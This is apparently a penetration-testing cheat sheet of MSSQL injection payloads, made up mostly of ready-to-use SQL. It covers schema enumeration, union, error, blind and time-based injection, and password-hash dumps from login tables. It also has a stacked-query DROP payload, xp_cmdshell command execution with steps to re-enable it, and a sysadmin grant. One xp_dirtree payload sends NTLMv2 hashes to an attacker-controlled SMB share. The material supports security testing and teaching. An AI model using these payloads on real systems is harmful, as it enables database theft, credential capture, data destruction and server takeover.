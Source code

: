 # MSSQL Injection

## MSSQL comments

```sql
-- comment goes here
/* comment goes here */
```

## MSSQL version

```sql
SELECT @@version
```

## MSSQL database name

```sql
SELECT DB_NAME()
```

## MSSQL List Databases

```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```

## MSSQL List Column

```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL List Tables

```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
```

## MSSQL User Password

```sql
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## MSSQL Union Based

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- Finally extract the data
$ SELECT  UserId, UserName from Users
```

## MSSQL Error based

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

## MSSQL Blind based

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## MSSQL Time based

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'                              comment:   --
```

## MSSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
ProductID=1; DROP members--
```

## MSSQL Command execution

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

## MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

## MSSQL Make user DBA (DB admin)

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## References

* [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Sqlinjectionwiki - MSSQL](http://www.sqlinjectionwiki.com/categories/1/mssql-sql-injection-cheat-sheet/)
* [Error Based - SQL Injection ](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
